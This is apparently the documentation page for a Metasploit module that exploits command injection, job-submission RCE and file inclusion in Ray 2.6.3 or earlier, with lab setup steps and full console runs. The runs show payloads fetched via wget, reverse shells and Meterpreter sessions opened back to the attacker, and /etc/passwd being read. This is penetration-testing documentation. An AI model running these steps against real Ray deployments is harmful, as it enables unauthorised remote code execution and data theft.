 ## Vulnerable Application

Ray (<=v2.6.3) is vulnerable to three vulnerabilities:

    * RCE via cpu_profile command injection vulnerability (CVE-2023-6019)
    * RCE via the agent job submission endpoint (No CVE)
    * local file inclusion (CVE-2023-6020)

This module exploits all three vulnerabilities.

The vulnerability affects:

    * Ray (<=v2.6.3)

This module was successfully tested on:

    * Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15

### Install and run the vulnerable Ray (v2.6.3)

1. Install your favorite virtualization engine (VirtualBox or VMware) on your preferred platform.
2. Install Kali Linux (or other Linux distro) in your virtualization engine.
3. Pull pre-built Ray docker container (v2.6.3) in your VM.
   `docker pull rayproject/ray:2.6.3`
4. Start the ray container.
   `docker run --shm-size=512M -it -p 8265:8265 rayproject/ray:2.6.3`
5. Start ray.
   `ray start --head --dashboard-host=0.0.0.0`

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/ray_cmdi_rce_lfi`
4. Do: `set rhost <rhost>`
5. Optional: `set rport <port>`
6. Do: `set lhost <attacker-ip>`
7. Optional: `set ATTACK <attack>`
8. Do: `run`
9. You should get a shell or meterpreter

## Options

### ATTACK (required)

This is the attack type to use. Default is CMDi (`CVE-2023-6019`). but RCE (No CVE) and LFI (`CVE-2023-6020`) can also be chosen.

### COMMAND (Optional)

This is the command to execute. Default is `echo 'Hello from Metasploit'`. This is used when ATTACK is set to `CMDi` or `RCE`.
This is required when ATTACK is RCE.

### FILEPATH (Optional)

This is the file to read. Default is `/etc/passwd`. This is used and required when ATTACK is set to `LFI`.

## Scenarios

### Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15 (CMDi, target 0)
```
msf6 > use exploit/linux/http/ray_cmdi_rce_lfi
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[+] Grabbed node info, pid: 124, ip: 172.17.0.2
[+] Command execution seems to have been successful. Status code: 500
[*] Using URL: http://192.168.56.1:8080/gSfnYt3
[*] Client 192.168.56.6 (Wget/1.20.3 (linux-gnu)) requested /gSfnYt3
[*] Sending payload to 192.168.56.6 (Wget/1.20.3 (linux-gnu))
[*] Sending stage (3045380 bytes) to 192.168.56.6
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.6:40066) at 2024-08-07 21:00:50 +0900
[*] Command Stager progress - 100.00% done (112/112 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Ubuntu 20.04 (Linux 6.6.15-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

### Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15 (CMDi, target 1)
```
msf6 > use exploit/linux/http/ray_cmdi_rce_lfi
[*] Using configured payload linux/x86/shell/reverse_tcp
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set target 1
target => 1
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[+] Grabbed node info, pid: 124, ip: 172.17.0.2
[+] Command execution seems to have been successful. Status code: 500
[*] Using URL: http://192.168.56.1:8080/l7pOn5OcI8ed4P
[*] Client 192.168.56.6 (Wget/1.20.3 (linux-gnu)) requested /l7pOn5OcI8ed4P
[*] Sending payload to 192.168.56.6 (Wget/1.20.3 (linux-gnu))
[*] Sending stage (36 bytes) to 192.168.56.6
[*] Command shell session 2 opened (192.168.56.1:4444 -> 192.168.56.6:34826) at 2024-08-07 21:02:30 +0900
[*] Command Stager progress - 100.00% done (119/119 bytes)
[*] Server stopped.

whoami
ray
pwd
/home/ray
```

### Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15 (RCE, target 0)
```
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set attack RCE
attack => RCE
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set target 0
target => 0
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set payload linux/x64/shell/reverse_tcp
payload => linux/x64/shell/reverse_tcp
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[+] Command execution successful. Job ID: 'raysubmit_hUcEzX4nBCdr5m3m' Submission ID: 'raysubmit_hUcEzX4nBCdr5m3m'
[*] Using URL: http://192.168.56.1:8080/lISIUc6V
[*] Command Stager progress - 100.00% done (113/113 bytes)
[*] Client 192.168.56.6 (Wget/1.20.3 (linux-gnu)) requested /lISIUc6V
[*] Sending payload to 192.168.56.6 (Wget/1.20.3 (linux-gnu))
[*] Sending stage (38 bytes) to 192.168.56.6
[*] Command shell session 6 opened (192.168.56.1:4444 -> 192.168.56.6:49312) at 2024-08-07 21:07:51 +0900
[*] Server stopped.

whoami
ray
pwd
/home/ray
```

### Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15 (RCE, target 1)
```
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set attack RCE
attack => RCE
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set target 1
target => 1
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[+] Command execution successful. Job ID: 'raysubmit_arSdaUWQZPCJy4mr' Submission ID: 'raysubmit_arSdaUWQZPCJy4mr'
[*] Using URL: http://192.168.56.1:8080/OPTAuZv1pjimlr
[*] Command Stager progress - 100.00% done (119/119 bytes)
[*] Client 192.168.56.6 (Wget/1.20.3 (linux-gnu)) requested /OPTAuZv1pjimlr
[*] Sending payload to 192.168.56.6 (Wget/1.20.3 (linux-gnu))
[*] Sending stage (36 bytes) to 192.168.56.6
[*] Command shell session 5 opened (192.168.56.1:4444 -> 192.168.56.6:45048) at 2024-08-07 21:06:40 +0900
[*] Server stopped.

whoami
ray
pwd
```

### Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15 (LFI)
```
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set attack LFI
attack => LFI
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[+] /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
ray:x:1000:100::/home/ray:/bin/bash
```
